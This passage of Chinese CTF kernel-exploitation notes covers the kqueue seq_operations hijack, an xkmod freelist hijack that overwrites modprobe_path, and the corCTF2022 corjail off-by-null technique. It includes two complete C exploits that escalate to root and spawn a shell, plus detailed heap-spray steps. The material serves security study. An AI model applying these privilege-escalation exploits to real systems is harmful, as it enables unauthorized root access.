   char *new_queue = validate((char *)kzalloc(queue->queue_size,GFP_KERNEL));

    /* Each saved entry can have its own size */
    if(request.data_size > queue->queue_size)
        err("[-] Entry size limit exceed");

    /* Copy main's queue's data */
    if(queue->data && request.data_size)
        validate(memcpy(new_queue,queue->data,request.data_size));
    else
  
```
这道题的利用依赖一个结构体：seq_operations，大小为 0x20（与 queue 相同），包含 4 个指针：

```c
struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
}
```

该结构体是序列文件的关键，作用类似迭代器，可以循环输出某些内容，通常用于导出数据和记录，以管理大型数据文件。打开定义了该结构体的 LKM 时（例如使用 cat 命令或 read），内核会创建这样的数据结构，并首先调用 start 函数指针。由于该结构体大小为 0x20，很可能被分配在上面的 queue 附近。如果能控制这里的 start 指针，就能控制内核执行流。本题打开的序列文件为 /proc/self/stat。

这里通过 `open("/proc/self/stat", O_RDONLY);` 堆喷一批大小为 0x20 的 chunk，再释放中间的一个。此时某个已分配 chunk 可能恰好位于释放对象之后（但并没有），因此对所有已打开的描述符尝试 read。

调用 start 前，内核会将下一条指令的地址压栈。正是利用这个地址得到内核加载基址，再通过偏移调用 commit_cred(prepare_kernel_cred(NULL))。

不过，由于劫持的是函数指针，函数开头仍有一个 `push rbp`，所以泄露的地址位于 rsp+8。然后给泄露地址加上相关偏移，再通过 `call reg` 调用函数。


### exp

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/prctl.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <sys/types.h>

typedef struct{
    uint32_t max_entries;
    uint16_t data_size;
    uint16_t entry_idx;
    uint16_t queue_idx;
    char* data;
}request_t;

void create_kqueue(int fd,uint32_t max_entries,uint16_t data_size)
{
    request_t request={
        .max_entries=max_entries,
        .data_size=data_size,
    };
    ioctl(fd,0xDEADC0DE,&request);
}

void edit_kqueue(int fd,uint16_t entry_idx,uint16_t queue_idx,char* data)
{
    request_t request={
        .queue_idx=queue_idx,
        .entry_idx=entry_idx,
        .data=data,
    };
    ioctl(fd,0xDAADEEEE,&request);
}

void save_kqueue(int fd,uint32_t max_entries,uint16_t data_size,uint16_t queue_idx)
{
    request_t request={
        .max_entries=max_entries,
        .data_size=data_size,
        .queue_idx=queue_idx,
    };
    ioctl(fd,0xB105BABE,&request);
}
void shell()
{
    __asm__(
            "mov r12, [rsp + 0x8];"
            "sub r12, 0x201179;"
            "mov r13, r12;"
            "add r12, 0x8c580;"// prepare_kernel_cred
            "add r13, 0x8c140;"// commit_creds
            "xor rdi, rdi;"
            "call r12;"
            "mov rdi, rax;"
            "call r13;"
            "swapgs;"
            "push user_ss;"
            "push user_sp;"
            "push user_rflags;"
            "push user_cs;"
            "push user_rip;"
            "iretq;");
}
// typedef struct{
//     uint16_t data_size;
//     uint64_t queue_size; /* This needs to handle larger numbers */
//     uint32_t max_entries;
//     uint16_t idx;
//     char* data;
// }queue;
void get_shell()
{
    system("/bin/sh");
}
size_t user_cs, user_rflags, user_sp, user_ss, user_rip = (size_t) get_shell;
void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("[*] status has been saved.");
}

int main()
{
    save_status();
    int fd1=open("/dev/kqueue",O_RDONLY);
    create_kqueue(fd1,0xffffffff,0x40);
    size_t * shellcode=malloc(0x40);
    for(int i=0;i<8;i++)
    {
        shellcode[i]=shell;
    }
    
    edit_kqueue(fd1,0,0,shellcode);
    int seq_fd[0x100];
    for(int i=0;i<0x100;i++)
    {
        seq_fd[i]=open("/proc/self/stat", O_RDONLY);
    }
    close(seq_fd[0x50]);
    
    save_kqueue(fd1,0xffffffff,0x40,0);
    
     for(int i=0;i<0x100;i++)
    {
       read(seq_fd[i], shellcode, 1); 
    }
     
    return 0;
}
```




# 任意地址分配（freelist 劫持）
## 通过 modprobe_path 提权
[https://h0pe-ay.github.io/%E5%88%A9%E7%94%A8modprobe_path%E6%8F%90%E6%9D%83/](https://h0pe-ay.github.io/%E5%88%A9%E7%94%A8modprobe_path%E6%8F%90%E6%9D%83/)
modprobe_path 保存名为 modprobe 的程序路径，该程序用于向 Linux 内核添加可加载内核模块，或从内核中移除模块。

执行文件头无效的文件时，会调用 modprobe_path 指向的程序。调用路径如下：

```bash
entry_SYSCALL_64()
    sys_execve()
        do_execve()
            do_execveat_common()
                bprm_execve()
                    exec_binprm()
                        search_binary_handler()
                            __request_module() // wrapped as request_module
                                call_modprobe()
```
call_modprobe() 定义在 kernel/kmod.c 中；重点看这部分代码（下面来自内核 5.14 源码）：

```c
static int call_modprobe(char *module_name, int wait)
{
    //...
    argv[0] = modprobe_path;
    argv[1] = "-q";
    argv[2] = "--";
    argv[3] = module_name;  /* check free_modprobe_argv() */
    argv[4] = NULL;

    info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
                     NULL, free_modprobe_argv, NULL);
    if (!info)
        goto free_module_name;

    return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
    //...
```

这里，call_usermodehelper_exec() 以 root 权限执行 modprobe_path 所指向的可执行文件。该地址处默认保存的值为 /sbin/modprobe。
```bash
cat /proc/kallsyms  | grep modprobe_path
或者
search /sbin/modprobe
```


- 接下来，程序需要任意地址写原语，用于将待执行程序的路径写入 modprobe_path。
- 构造无效文件头，例如 ffffffff，迫使内核进入 call_modprobe 函数。

## 利用
> 先按 Ctrl+A，再按 C：切换到 QEMU Monitor 模式。
> 应使用 -monitor none 参数禁用 Monitor。
也可以使用 -monitor /dev/null，将 Monitor 重定向到 /dev/null。

```bash
cat /sys/devices/system/cpu/vulnerabilities/*查看开了KPTI
kaslr smep smap都开了
```

调用 kmem_cache_create 创建新 cache 时，内核首先检查是否已存在特征相同的 cache。如果找到匹配项，就返回现有 cache，不创建新 cache。这里没有设置 SLAB_ACCOUNT，因此返回现有 cache。

调试时记得修改 `rdinit=/init`；这里的 init 是自己创建的，参考其中相关 init 即可，最后以 root 身份启动。

```c
void __fastcall xkmod_ioctl(__int64 a1, int cmd, char *data)
{
  void *p_input; // rdi
  char *v5; // rsi
  struct input input; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v7; // [rsp+10h] [rbp-10h]

  v7 = __readgsqword(0x28u);
  if ( data )
  {
    p_input = &input;
    v5 = data;
    copy_from_user(&input, data, 16LL);
    if ( cmd == 107374182 )
    {
      p_input = buf;
      if ( buf && input.len <= 0x50u && input.offset <= 0x70u )
      {
        copy_from_user(&buf[input.offset], input.user_buf, (int)input.len);
        return;
      }
    }
    else
    {
      if ( cmd != 125269879 )
      {
        if ( cmd == 17895697 )
          buf = (char *)kmem_cache_alloc(s, 3264LL);
        return;
      }
      v5 = buf;
      if ( buf && input.len <= 0x50u && input.offset <= 0x70u )
      {
        copy_to_user(input.user_buf, &buf[input.offset], (int)input.len);
        return;
      }
    }
    xkmod_ioctl_cold((__int64)p_input, (__int64)v5);
  }
}

int __fastcall xkmod_release(inode *inode, file *file)
{
  return kmem_cache_free(s, buf);
}
```
close 后没有清空 buf，因此仍然可以修改 buf 或泄露其中的内容。

- 打开多个 `/dev/xkmod` 实例。
- 使用第一个描述符执行添加，然后关闭。
- 使用第二个描述符读取，泄露对象地址，再通过异或得到堆基址。
- 使用第二个描述符写入，将 freelist 设为 (page_offset_base) + 0x9d00 - 0x10（该地址对应的 freelist 为 NULL，因此系统会向伙伴系统申请新 slab；否则，若 freelist 无效，内核会 panic）。

- 使用第二个描述符添加两次；此时 buf 为 (page_offset_base) + 0x9d00 - 0x10，通过 read 可以泄露内核基址。
- 使用第二个描述符执行添加，然后关闭。
- 使用第三个描述符写入，将 freelist 设为 modprobe_path - 0x10（同样为了保证 freelist 为 NULL）。


- 使用第三个描述符添加两次；此时 buf 为 modprobe_path - 0x10，然后向其中写入恶意脚本的路径。
- 随后创建一个格式错误的文件；执行它就会跳转到恶意脚本，将 flag 的权限改为 777（恶意脚本以 root 权限运行）。
- 再启动 shell 读取 flag。

### exp

```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <asm/ldt.h>
#include <assert.h>
#include <ctype.h>
#include <errno.h>
#include <fcntl.h>
#include <linux/keyctl.h>
#include <linux/userfaultfd.h>
#include <poll.h>
#include <pthread.h>
#include <sched.h>
#include <semaphore.h>
#include <signal.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/mman.h>
#include <sys/msg.h>
#include <sys/prctl.h>
#include <sys/sem.h>
#include <sys/shm.h>
#include <sys/socket.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/xattr.h>
#include <unistd.h>
#include <sys/io.h>

size_t modprobe_path = 0xFFFFFFFF82444700;

void qword_dump(char *desc, void *addr, int len) {
    uint64_t *buf64 = (uint64_t *) addr;
    uint8_t *buf8 = (uint8_t *) addr;
    if (desc != NULL) {
        printf("[*] %s:\n", desc);
    }
    for (int i = 0; i < len / 8; i += 4) {
        printf("  %04x", i * 8);
        for (int j = 0; j < 4; j++) {
            i + j < len / 8 ? printf(" 0x%016lx", buf64[i + j]) : printf("                   ");
        }
        printf("   ");
        for (int j = 0; j < 32 && j + i * 8 < len; j++) {
            printf("%c", isprint(buf8[i * 8 + j]) ? buf8[i * 8 + j] : '.');
        }
        puts("");
    }
}

void bind_core(int core) {
    cpu_set_t cpu_set;
    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
}

struct Data {
    size_t *buf;
    u_int32_t offset;
    u_int32_t size;
};

void alloc_buf(int fd, struct Data *data) {
    ioctl(fd, 0x1111111, data);
}

void write_buf(int fd, struct Data *data) {
    ioctl(fd, 0x6666666, data);
}

void read_buf(int fd, struct Data *data) {
    ioctl(fd, 0x7777777, data);
}

int main() {
    bind_core(0);

    int xkmod_fd[5];
    for (int i = 0; i < 3; i++) {
        xkmod_fd[i] = open("/dev/xkmod", O_RDONLY);
        if (xkmod_fd[i] < 0) {
            printf("[-] %d Failed to open xkmod.", i);
            exit(-1);
        }
    }

    struct Data data = {malloc(0x1000), 0, 0x50};
    alloc_buf(xkmod_fd[0], &data);
    close(xkmod_fd[0]);

    read_buf(xkmod_fd[1], &data);
    qword_dump("buf", data.buf, 0x50);

    size_t page_offset_base = data.buf[0] & 0xFFFFFFFFF0000000;
    printf("[+] page_offset_base: %p\n", page_offset_base);


    data.buf[0] = page_offset_base + 0x9d000 - 0x10;
    write_buf(xkmod_fd[1], &data);
    alloc_buf(xkmod_fd[1], &data);
    alloc_buf(xkmod_fd[1], &data);

    data.size = 0x50;
    read_buf(xkmod_fd[1], &data);
    qword_dump("buf", data.buf, 0x50);
    
    size_t kernel_offset = data.buf[2] - 0xffffffff81000030;
    printf("kernel offset: %p\n", kernel_offset);
    modprobe_path += kernel_offset;

    close(xkmod_fd[1]);
    data.buf[0] = modprobe_path - 0x10;
    write_buf(xkmod_fd[2], &data);
    alloc_buf(xkmod_fd[2], &data);
    alloc_buf(xkmod_fd[2], &data);
    strcpy((char *) &data.buf[2], "/home/shell.sh");
    write_buf(xkmod_fd[2], &data);

    if (open("/shell.sh", O_RDWR) < 0) {
        system("echo '#!/bin/sh' >> /home/shell.sh");
        system("echo 'chmod 777 /flag' >> /home/shell.sh");
        system("chmod +x /home/shell.sh");
    }
    system("echo -e '\\xff\\xff\\xff\\xff' > /home/fake");
    system("chmod +x /home/fake");
    system("/home/fake");
    if (open("/flag", O_RDWR) < 0) {
        puts("[-] Failed to hijack!");
        _exit(-1);
    }
    puts("[+] hijack success");
    system("/bin/sh");

    return 0;
}
```



# 空字节越界（Off By Null）
题目：corCTF2022 corjail（kmalloc-4k）
[https://blog.csdn.net/panhewu9919/article/details/127804902](https://blog.csdn.net/panhewu9919/article/details/127804902)
[https://xz.aliyun.com/t/12488?time__1311=GqGxRQqiqmw4lrzG7Dy7QDkDcmoOI6fQ3x](https://xz.aliyun.com/t/12488?time__1311=GqGxRQqiqmw4lrzG7Dy7QDkDcmoOI6fQ3x)

## 调试

> 感谢 tplus 和 Nightu 两位师傅的帮助！！！

Intel 不支持运行：`qemu-system-x86_64: warning: host doesn't support requested feature: CPUID.80000001H:ECX.svm [bit 2]`。Nightu 师傅建议使用 -cpu max；如果仍然不行，就没办法了。因此这里只分析思路和 exp。

- 修改 qcow 镜像中的 root 权限
1. 内核命令行（cmdline）：
   这是启动时传给内核的参数列表，可以在引导加载器（如 GRUB）的配置中设置。

2. init 系统的选择：
   - 如果 cmdline 中没有指定 init 系统，内核会按以下顺序尝试查找并执行 init 程序：
     a) /sbin/init
     b) /etc/init
     c) /bin/init
     d) /bin/sh

3. systemd:
   - 如果系统使用 systemd，/sbin/init 通常是指向 systemd 可执行文件的符号链接。
   - 可以在 cmdline 中显式指定 systemd，例如：`init=/lib/systemd/systemd`

题目需要 ext4 文件系统，可以使用 [create-image.sh](https://github.com/google/syzkaller/blob/master/tools/create-image.sh) 制作
## 漏洞
开启了全部保护。

题目 readme 要求操作 `/proc_rw/cormon`；虽然 `/proc/cormon` 也存在，这里仍按题目说明操作。

写入 `/proc/cormon` 时，cormon_proc_write 存在 off-by-one 溢出。

```c
static ssize_t cormon_proc_write(struct file *file, const char __user *ubuf, size_t count, loff_t *ppos) 
{
    loff_t offset = *ppos;
    char *syscalls;
    size_t len;

    if (offset < 0)
        return -EINVAL;

    if (offset >= PAGE_SIZE || !count)
        return 0;

    len = count > PAGE_SIZE ? PAGE_SIZE - 1 : count;
	//count 等于PAGE_SIZE 时就是原值，
    syscalls = kmalloc(PAGE_SIZE, GFP_ATOMIC);
    printk(KERN_INFO "[CoRMon::Debug] Syscalls @ %#llx\n", (uint64_t)syscalls);

    if (!syscalls)
    {
        printk(KERN_ERR "[CoRMon::Error] kmalloc() call failed!\n");
        return -ENOMEM;
    }

    if (copy_from_user(syscalls, ubuf, len)) //复制PAGE_SIZE大小
    {
        printk(KERN_ERR "[CoRMon::Error] copy_from_user() call failed!\n");
        return -EFAULT;
    }

    syscalls[len] = '\x00';  // 多一个出来

    if (update_filter(syscalls))
    {
        kfree(syscalls);
        return -EINVAL;
    }
    
    kfree(syscalls);  //释放掉PAGE_SIZE 大小的object

    return count;
}
```

## 利用
页级 cache 中的 off-by-one 溢出会将相邻地址处对象的最低字节清零。如果相邻对象的前八字节也指向一个对象，且覆盖后指向已释放对象，就可能造成 UAF。
### poll
`poll` 函数是一种多路复用技术，用于监视多个文件描述符（通常是 socket 或管道），判断是否有数据可读、是否可写，或是否发生错误。


1. **监视多个文件描述符**：`poll` 可以同时监视多个文件描述符的状态变化，这些描述符可以是已打开文件、网络 socket 等。

2. **事件检测**：它可以检测不同的事件类型，例如：
   - **POLLIN**：有数据可读。
   - **POLLOUT**：可以写入数据。
   - **POLLERR**：发生错误。
   - **POLLHUP**：挂断事件（对端关闭连接）。


使用 `poll` 函数的典型步骤如下：

1. 初始化 `pollfd` 结构体数组（每个结构体对应一个文件描述符）。
2. 设置需要监视的事件类型。
3. 调用 `poll` 函数，传入 `pollfd` 数组、数组大小和超时时间。
4. `poll` 返回后，检查 `revents` 字段在每个 `pollfd` 结构体中的值，判断哪些文件描述符发生了关注的事件。


```c
//int poll(struct pollfd fds[], nfds_t nfds, int timeout); 
//fds:一个pollfd结构的数组
//nfds:表示'fds'数组中的文件描述符数量
//timeout:表示超时时间，单位是毫秒
#include <poll.h>
#include <unistd.h>

int main() {
    struct pollfd fds[2];
    int timeout_msecs = 5000; // 5秒超时
    int ret;

    // 假设我们有两个文件描述符fd1和fd2
    int fd1 = ...; // 打开文件或套接字
    int fd2 = ...; // 打开文件或套接字

    fds[0].fd = fd1;
    fds[0].events = POLLIN; // 监控可读事件

    fds[1].fd = fd2;
    fds[1].events = POLLIN; // 监控可读事件

    ret = poll(fds, 2, timeout_msecs); //监控5秒钟

    if (ret > 0) {
        if (fds[0].revents & POLLIN) {
            // fd1 有数据可读
        }
        if (fds[1].revents & POLLIN) {
            // fd2 有数据可读
        }
    } else if (ret == 0) {
        // 超时，没有文件描述符变为可操作状态
    } else {
        // 发生错误
    }

    return 0;
}
```
使用 poll 函数监视一个或多个文件描述符的活动时，内核空间会分配用于存放 poll_list 的空间，通过 poll_list 的 entries 保存 pollfd 描述符。前 30 个 pollfd 组成的 poll_list 放在栈上；后续则分配到各自最多容纳 510 个 pollfd 的 poll_list 对象中，因此对象的分配大小范围为 32 到 4096。

分配完所有 poll_list 对象后，调用 do_poll，监视所提供的文件描述符，直到特定事件发生或计时器超时。

随后，while 循环根据 poll_list->next 是否为 NULL 遍历 poll_list 单链表，并依次释放结构体。

```c
struct poll_list {
    struct poll_list *next; // 指向下一个poll_list
    int len; // 对应于条目数组中pollfd结构的数量
    struct pollfd entries[]; // 存储pollfd结构的数组
};
```


###  初始化
- 使用 assign_to_core() 将当前进程绑定到 CPU0，因为这里是多核环境，slab 按 CPU 分配。
- 大量堆喷 seq_operations，填满 kmalloc-32。将只有少量对象或对象不多的 kmalloc-32 cache 填入 full 链表，使其申请新页来存放 kmalloc-32，因为后面需要保证 kmalloc-32 的 poll_list 和 kmalloc-32 的 user_key_payload 位于同一页。
### 堆喷 poll_list 和 user_key_payload


- 选择包含 30+510+1 个文件描述符的 poll_list，这样会同时喷射 kmalloc-4096 和 kmalloc-32 对象。之前没有喷 kmalloc-4096 的原因，可能是一个 slab 只能容纳 8 个 kmalloc-4096 对象，并且由于保护机制，freelist 中的条目并不相邻。因此，喷射一段时间 kmalloc-4096 后，分配基本都会落在新 slab 上；于是 cormon_proc_write 分配一个 kmalloc-4096，随后 poll_list 填满该 slab 时，两者就很可能相邻。
- 随后，kmalloc-32 的 poll_list 可能与之前堆喷的 kmalloc-32 user_key_payload 落在同一页。图中黄色为 user_key_payload，绿色为 poll_list，蓝色为 cormon_proc_write 分配的一个 kmalloc-4096，红色为被溢出的 poll_list。溢出将 poll_list 的低字节改为 \x00，使原本指向 kmalloc-32 中某个 poll_list 的 next，转而指向同一页上之前堆喷产生的另一个 user_key_payload。

- poll 函数结束时，会沿 next 释放所有已分配的 poll_list。此时被溢出对象的 next 指向 user_key_payload，因此该 user_key_payload 会被释放，但仍然可用，从而造成 UAF。
> 注意：堆喷时，user_key_payload 的第一个 QWORD 必须为 NULL（poll 的遍历只在 next 为 NULL 时终止）。可以通过 setxattr 函数进行布置：具体来说，kmalloc 分配的 chunk 不一定为 NULL，但 chunk 的分配和释放遵循后进先出原则，因此可以先用 setxattr 函数（分配后立即释放 chunk）将 chunk 清零，再将该 chunk 分配给 user_key_payload 结构体。
### 堆喷 seq_operations 结构体与 keyctl_read
- 随后堆喷 kmalloc-32 的 seq_operations 结构体，使之前释放的 kmalloc-32 user_key_payload 结构体与 seq_operations 结构体重叠。

```c
struct user_key_payload {
	struct rcu_head	rcu;		/* RCU destructor */
	unsigned short	datalen;	/* length of this data */
	char		data[] __aligned(__alignof__(u64)); /* actual data */
};

```

```c
struct seq_operations {
    void * (*start) (struct seq_file *m, loff_t *pos);
    void (*stop) (struct seq_file *m, void *v);
    void * (*next) (struct seq_file *m, void *v, loff_t *pos);
    int (*show) (struct seq_file *m, void *v);
};

```

- 此时 data 字段恰好存放 show 函数地址，通过 keyctl_read 泄露基址。

### 堆喷 ptmx

- 打开 ptmx 时，会分配一个 kmalloc-1024 的 tty_struct 和一个 kmalloc-32 的 tty_file_private，其中 tty_file_private->tty 指向对应 tty_struct 结构体的地址。大量喷射 ptmx，使某个 kmalloc-32 的 tty_file_private 落在已发生 UAF 的 kmalloc-32 user_key_payload 的 data 之后的较高地址处。
 - 利用 user_key_payload 的 data 越界读取（data 是对象内某个偏移处的地址），可以泄露某个 kmalloc-32 tty_file_private 的内容，其中包含 kmalloc-1024 tty_struct 的地址。


###  释放 seq，再堆喷 poll_list 和 user_key；释放后，通过 setxattr + 堆喷 user_key 修改 UAF chunk
- 对 seq_operations 使用 close()，释放由 seq_operations 和 user_key_payload 共同占用的 kmalloc-32 chunk。
- 然后堆喷 poll_list 对象占据 kmalloc-32；此时 UAF chunk 由 user_key_payload 和 poll_list 共同占用。
- 释放 user_key_payload 对象，再结合 setxattr 函数与 kmalloc-32 user_key_payload 堆喷：分配到 UAF chunk 的那个 chunk，其第一个 QWORD 会被改为泄露的堆地址 - 0x18（即调用一次 setxattr，再喷一个，如此循环；偏移为 0x18 时，对应的前八字节为 NULL，因此不会继续遍历）。修改后，UAF chunk 由 user_key_payload 和 poll_list 共同占用。


###  释放 tty_struct，堆喷 pipe_buffer 和 poll_list，释放后再堆喷 user_key_payload 劫持 pipe_buffer 

- 在 poll_list 尚未释放时，释放 tty_struct（泄露的 kmalloc-1024 对象地址属于 tty_struct），并堆喷分配 pipe_buffer，用 pipe_buffer 替换 target_object。
- 之后，释放 poll_list 会导致 target_object - 0x18 区域被释放。（可能需要释放全部 user_key_payload，因为 add_key 可分配的 key 数量存在上限，超过后分配会失败。）再堆喷 kmalloc-1024 大小的 user_key_payload，劫持 target_object - 0x18，从而劫持 pipe_buffer 并布置 ROP 链。

